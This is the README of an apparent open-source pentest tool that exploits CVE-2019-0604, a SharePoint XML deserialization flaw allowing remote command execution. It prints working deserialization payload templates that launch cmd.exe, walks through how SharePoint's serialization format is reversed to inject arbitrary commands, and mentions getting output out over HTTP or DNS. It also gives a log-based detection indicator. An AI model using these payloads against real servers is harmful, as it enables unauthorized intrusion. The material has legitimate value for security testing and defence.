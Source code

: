 
# Desharialize
Desharialize: Easy mode to Exploit CVE-2019-0604 (Sharepoint XML Deserialization Unauthenticated RCE)

![1](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharializelogo.png)

## What is it?

While there have been public POCs for CVE-2019-0604, I have noticed that those POCs are not clear, extensible or flexible. Some of them only have on hardcoded (and serialized/encoded) payloads, some of them require running custom .NET code before every payload, and some would run the payload on your machine first during the serialization process. I have reversed and analyzed the simple serialization/encoding algorithm used by Sharepoint, and I have created a raw template that can be used to serialize any custom payload on the fly without having to run .NET code for each payload, or run payloads that you can't read.

Find below usage examples for Desharialize as well as a brief explanation of the serialization process.

## Assumptions

To better utilize this tool in pentesting Sharepoint:
- It is assumed that you know what is the Sharepoint CVE-2019-0604
- It is assumed that you have found a vulnerable (Unpatched) Sharepoint server.
- It is assumed that you have found a vulnerable endpoint on that Sharepoint server (e.g. example.com/_layouts/15/Picker.aspx)


## Prerequisites

- Python 3.
- The requirements listed in the requirements.txt file


## Installing

pip3 install -r requirements.txt


Better to create a virtualenv environment for the tool. Please note that using sudo with pip is not recommended.


## Author

* **Mohammed Aldoub**, also known as **Voulnet**, find me on [Twitter](https://www.twitter.com/Voulnet)

## Main Features

- Run custom serialized payloads on targets (Make sure you have authorization from system owners!).
- Launch the payload on any vulnerable Sharepoint version without having to look for compatible Assembly names.
- No need to play musical chairs with dynamically changing VIEWSTATE and EVENTVALIDATION values, Desharialize scrapes them from the target automatically.
- Make pentesting Sharepoint fun again.
- This tool is aimed at testing Picker.aspx endpoints in particular. Not tested at other endpoints.
- This tool runs commands through the target's command shell using Sharepoint privileges, but no way to read output directly.
- To read output, another channel is needed: Sending result through HTTP, DNS or other options.
- Load commands from a file: This means no need for annoying, pesky escaping and encoding of values to paste stuff into the shell.
- Burp Collaborator can help!

## Contributing

PRs are welcome!


## Testing

Installing and running an older version of Sharepoint to test this tool is a very annoying and cumbersome process. Installing and configuring Sharepoint was actually the only difficult thing in the process of developing this tool. To spare you sweat and blood, you may find these resources helpful, they contain a VM with Sharepoint pre-installed. You might need to fix up some licenses issues such as rearming Windows license, configuring a Developer license for MSSQL, and so on. The links are:
[Sharepoint 2016 Ready made VM](https://gauravmahajan.net/2017/10/06/sharepoint-server-2016-virtual-machine-download/) and [Sharepoint 2013 Ready made VM](https://gauravmahajan.net/2014/08/17/sharepoint-server-2013-sp1-virtual-machine-download/)

## Brief Explanation of the serialization process

In my analysis of this vulnerability, I noticed that the vulnerability has been explained in depth by the authors of the awesome links you will find in the References section below. I will attempt to explain the serialization process, because this is what allowed me to create a dynamic payload you can change on the fly without calling .NET code every time.

The serialized string is a XamlReader ExpandedWrapper which contains our payload in its XML format, An example taken from [this POC](https://github.com/linhlhq/CVE-2019-0604)  is:
```XML
<ResourceDictionary
xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
xmlns:System="clr-namespace:System;assembly=mscorlib"
xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
	<ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
		<ObjectDataProvider.MethodParameters>
			<System:String>cmd.exe</System:String>
			<System:String>/c calc</System:String>
		</ObjectDataProvider.MethodParameters>
	</ObjectDataProvider>
</ResourceDictionary>
```

To serialize it, .NET calls a function called Microsoft.SharePoint.BusinessData.Infrastructure.EntityInstanceIdEncoder.EncodeEntityInstanceId, which takes this string object and performs some operations resulting finally in the serialized payload which looks like "__bp123435009700370047005600d60...etc"
By decompiling this function and debugging its code flow, we can see the following:

![1](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharialize_screenshot1.png)

Here the function adds __ to the start of the string, then checks the number of objects sent to be serialized, here it's 1, so it adds 1 to 97 to convert the result into ascii (b ascii is 98 decimal), so the string becomes __b

![2](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharialize_screenshot2.png)

After that, the code loops on the type of the element being serialized, it's currently of type object, so it looks up a table of types and their values from an array called typeHash.

![2](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharialize_screenshot3.png)

When we decompile this array, we will find that the object type is the type #16, which has an index of 15 (starting from zero!), so the code adds the value of 15 to 97 resulting in 112, which is p in decimal, now the serialized string becomes __bp

![3](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharialize_screenshot4.png)

Next, we check the type of the object being sent to be serialized, which is of type object, so we enter this if statement, where it takes our input, serialized it using the XmlSerializer class of .NET, then appends in front of it the the XamlReader Assembly Qualified name + ":" plus the XML serialized payload, so it looks like this: 

```xml
System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089:<?xml version="1.0" encoding="utf-16"?>
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <ProjectedProperty0>
    <ObjectInstance xsi:type="XamlReader" />
    <MethodName>Parse</MethodName>
    <MethodParameters>
      <anyType xsi:type="xsd:string">&lt;ResourceDictionary xmlns='http://schemas.microsoft.com/winfx/2006/xaml/presentation' xmlns:x='http://schemas.microsoft.com/winfx/2006/xaml' xmlns:System='clr-namespace:System;assembly=mscorlib' xmlns:Diag='clr-namespace:System.Diagnostics;assembly=system'&gt;&lt;ObjectDataProvider x:Key='y' ObjectType='{x:Type Diag:Process}' MethodName='Start'&gt;&lt;ObjectDataProvider.MethodParameters&gt;&lt;System:String&gt;cmd&lt;/System:String&gt;&lt;System:String&gt;/c COMMANDHERE &lt;/System:String&gt;&lt;/ObjectDataProvider.MethodParameters&gt;&lt;/ObjectDataProvider&gt;&lt;/ResourceDictionary&gt; </anyType>
    </MethodParameters>
  </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>
```

After that, this serialized string, whose encoding is utf-16 is sent to be Hex-encoded, and then reversed, and also the length of this serialized string (after encoding, hexing and reversing) is calculated in hex (the length, that is - also encoded, hexed and reversed) and then put in front of the string so we have a string for example like "__bp82c135009700370047005600d60...etc", which actually means length of 82c1, so reversing that is 1c28 in hex, meaning 7208 in decimal. After that we have 35009700370047005600, so let's reverse that into 00530079007300740065, and decoding this from utf-16 and hex, we have 0x5379737465 which in ascii is System (System...etc etc)

So the way this tool works is that it takes a premade serialized string, adds a known serialized-reversed-hexed string to it, takes your command input, serializes-hexes-encodes it and then puts it instead of the premade serialized placeholder, and voila! You now can put your own dynamic serialized string without having to run dotnet code or be restricted to the public payloads available online.

## TODO:

- More testing against a wider range of versions and service packs for Sharepoint.
- Integrate fully with Metasploit.

## Detection

Check your web server logs for request containing "71e9bce111e9429c"
For more awesome detection steps, Snort and Sigma rules, please visit: [Mansour Alsaeedi Blog - adraft.page](https://adraft.page/index.php/2019/09/14/cve-2019-0604-sharepoint-rce-forensics-analysis-and-detection-methods/)

## References and further info

[Mansour Alsaeedi Blog - adraft.page](https://adraft.page/index.php/2019/09/14/cve-2019-0604-sharepoint-rce-forensics-analysis-and-detection-methods/)

[ZDI](https://www.zerodayinitiative.com/blog/2019/3/13/cve-2019-0604-details-of-a-microsoft-sharepoint-rce-vulnerability)

[k8gege POC](https://github.com/k8gege/CVE-2019-0604)

[.NET POC to create serialized payload](https://github.com/linhlhq/CVE-2019-0604) 

[YSoSerial.net dotnet deserialization payload generator] (https://github.com/pwntester/ysoserial.net) 


## Disclaimer

By using this tool, you absolve the tool author from any effect or repercussions resulting, directly or indirectly, from usage of this tool. This tool is provided as is, with no warranty or guarantee. This tool must only be used on legally authorized targets, and by using this tool you hereby declare that you have obtained proper legal permission from the tested targets, and that you fully absolve the tool author from any and all means and results, directly or indirectly, of utilizing this free open source tool. 

## Questions?

- Raise an issue here in Github.
- Contact me on Twitter.
